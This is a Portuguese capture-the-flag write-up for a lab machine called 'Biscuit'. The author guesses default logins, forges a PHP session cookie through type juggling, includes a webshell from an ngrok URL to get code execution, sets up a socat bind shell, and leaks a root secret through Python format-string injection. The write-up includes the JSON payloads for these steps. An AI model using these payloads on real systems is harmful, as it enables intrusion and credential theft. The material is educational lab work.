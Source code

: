 ```yaml
---
layout: post
title:  "UHCCTF (Classificatória) - Biscuit (Official Write-Up) pt-br"
tags: pt-br ctf write-up
---
```

<script async src="https://www.googletagmanager.com/gtag/js?id=G-72MZ89K41P"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-72MZ89K41P');
</script>
Ola sou o Vinicius (big0us), esse é um write-up de uma maquina que foi o challenge de uma das etapas classificatórias do UHC.

Escreverei meio rápido então peço desculpas se algo estiver um pouco ruim.

Boa leitura :)

g00d_h4ck1ng

# Recon

![/assets/biscuit/Untitled.png](/assets/biscuit/Untitled.png)

A primeira página é uma página de login, dando uma olhada no HTML da página aparentemente não existe nada escondido, vou rodar um fuzzing e depois poderemos testar algumas credenciais.

![/assets/biscuit/Untitled%201.png](/assets/biscuit/Untitled%201.png)

Aparentemente nosso fuzzing entregou apenas um /class, onde existe um directory listing apontando um arquivo ".php".

![/assets/biscuit/Untitled%202.png](/assets/biscuit/Untitled%202.png)

Ok, vamos testar algumas credenciais padrões no formulário de login:

```
admin:admin
guest:guest
administrator:admin
root:root
```

Testando "guest:guest" conseguimos entrar:

![/assets/biscuit/Untitled%203.png](/assets/biscuit/Untitled%203.png)

Dando uma olhada aparentemente temos só uma página de welcome.

Vamos ver nossos cookies.

![/assets/biscuit/Untitled%204.png](/assets/biscuit/Untitled%204.png)

Vamos entender melhor esse cookie chamado session pois ele parece ser interessante:

![/assets/biscuit/Untitled%205.png](/assets/biscuit/Untitled%205.png)

Utilizando o cyberchef para decodar o cookie podemos perceber que se trata de um JSON com três valores: hmac (provavelmente algo que valide os valores), username, e uma hora para o cookie expirar.

Vou tentar alterar o valor de username para "admin" encodar em base64, url e então enviar para a aplicação.

![/assets/biscuit/Untitled%206.png](/assets/biscuit/Untitled%206.png)

Aparentemente retornou um erro dizendo que estamos tentando fazer um "temperamento de cookie", e retornou uma flag! Nossa primeira flag.

Depois de alguns testes enviando cookies com outros valores aleatórios, acabei percebendo que a aplicação valida o Cookie pelo valor do hmac, e não pelo conteudo inteiro do json.

Uma vulnerabilidade muito conhecida sobre validações do PHP é o type jugling, que consiste em bypass de autenticações fazendo qualquer if($ == $) retornar "true".

[PHP Tricks (SPA)](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp)

[PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)

![/assets/biscuit/Untitled%207.png](/assets/biscuit/Untitled%207.png)

Basicamente quando um programador utiliza "==" em uma comparação o php primeiro torna os dois valores do mesmo tipo, ignorando o tipo (int, str...) das variáveis.

E nessa operação podemos utilizar algumas técnicas para a comparação retornar "true".

# Exploitation

Depois de um tempo tentando, testei trocar o valor do "hmac" para "true" e aparentemente funcionou!

![/assets/biscuit/Untitled%208.png](/assets/biscuit/Untitled%208.png)

```json
{"hmac":true,"username":"admin","expiration":1625435484}
```

![/assets/biscuit/Untitled%209.png](/assets/biscuit/Untitled%209.png)

Ok, fiquei triste que não existe nenhuma flag por aqui 😢.

Vou tentar alterar o nome do usuário para entender o que está acontecendo.

Alterando para "test" o php nos retorna um erro, aparentemente ele está rodando um "require_once" no valor que colocamos + adicionando .php no final. require_once normalmente é usado para incluir páginas e arquivos php em sites, e quando o usuário tem controle sobre o valor que o require_once vai usar a aplicação está vulnerável a LFI ou RFI (Local/Remote File Inclusion).

![/assets/biscuit/Untitled%2010.png](/assets/biscuit/Untitled%2010.png)

Como a aplicação ja coloca o .php no final vou fazer o seguinte.

Subir um arquivo com uma webshell num servidor utilizando o ngrok, mandar a a aplicação incluir meu arquivo e conseguir um RCE.

![/assets/biscuit/Untitled%2011.png](/assets/biscuit/Untitled%2011.png)

E vou mandar a payload:

```json
{"hmac":true,"username":"https://3b4f8afabab2.ngrok.io/shell","expiration":1625435484}
```

(A aplicação ja vai colocar o .php)

Temos RCE!!

![/assets/biscuit/Untitled%2012.png](/assets/biscuit/Untitled%2012.png)

Agora vou tentar pegar uma reverse shell.

Após algumas tentativas percebi que existe um firewall na aplicação que bloqueia qualquer comunicação em portas que não forem 80 ou 443, como eu não tenho uma VPS, vou fazer de uma forma diferente, ao invés de uma reverse shell (onde a vitima se conecta no atante) vou pegar uma bind shell (abrindo uma porta na maquina e me conectando nela).

Para isso vou usar o "socat".

[socat | GTFOBins](https://gtfobins.github.io/gtfobins/socat/#bind-shell)

![/assets/biscuit/Untitled%2013.png](/assets/biscuit/Untitled%2013.png)

Primeiro peguei o binario do socat no github deles (socat binary) e passei pra maquina utilizando o web-server que eu criei para conseguir RCE, e dando um curl.

Então rodei os comandos que estão na imagem e consegui uma bind shell! (utilizei a porta 6969)

![/assets/biscuit/Untitled%2014.png](/assets/biscuit/Untitled%2014.png)

E navegando um pouco no / encontramos a próxima flag:

![/assets/biscuit/Untitled%2015.png](/assets/biscuit/Untitled%2015.png)

# Pós Exploitation

Fazendo o básico checklist de priv esc podemos perceber que estamos com o usuário do apache e podemos rodar um script como root na máquina:

![/assets/biscuit/Untitled%2016.png](/assets/biscuit/Untitled%2016.png)

Aparentemente não podemos ler o script e nem altera-lo.

![/assets/biscuit/Untitled%2017.png](/assets/biscuit/Untitled%2017.png)

O que nos resta é roda-lo:

![/assets/biscuit/Untitled%2018.png](/assets/biscuit/Untitled%2018.png)

Aparentemente ele printa um IP, dando uma olhada no /var/www/html o path da aplicação web podemos perceber que existe um arquivo com o mesmo ip que ele printou, então aparentemente ele está printando o IP que está no arquivo.

![/assets/biscuit/Untitled%2019.png](/assets/biscuit/Untitled%2019.png)

Abri o arquivo com o nano (antes rodar 'export TERM=xterm' !!) e começei a edita-lo para tentar retornar algum erro no python que me mostre alguma coisa do programa.

![/assets/biscuit/Untitled%2020.png](/assets/biscuit/Untitled%2020.png)

![/assets/biscuit/Untitled%2021.png](/assets/biscuit/Untitled%2021.png)

Interessante, aparentemente existe um format string diferente (pouco usado) rodando.

Pesquisando sobre esse tipo de format string + vulnerabilites acabei tropeçando nesse artigo.

[Are there any Security Concerns to using Python F Strings with User Input](https://security.stackexchange.com/questions/238338/are-there-any-security-concerns-to-using-python-f-strings-with-user-input)

Basicamente nele explica-se tudo o que precisamos fazer, por isso não vou explicar direitinho, mas basicamente a forma que esse format string funciona nos permite injetar mais strings para serem formatadas, e se isso é printado podemos printar todas as váriaveis globais que o arquivo usa, normlamente dando alguma key ou senha para nós. (Para quem não entende muito bem inglês é só traduzir que fica tranquilo de entender).

Ok então vamos a payload.

```json
{"ips":["{ip.list_blocked.__globals__}"]}
```

![/assets/biscuit/Untitled%2022.png](/assets/biscuit/Untitled%2022.png)

Aparentemente funcionou e conseguimos o valor de uma váriavel chamada root_secret, provavelmente é a senha do root.

![/assets/biscuit/Untitled%2023.png](/assets/biscuit/Untitled%2023.png)

Worked!!

Obrigado a você que leu até aqui, parabéns cadu pela máquina, e desclupe por algum erro no write-up, fiz correndo >_>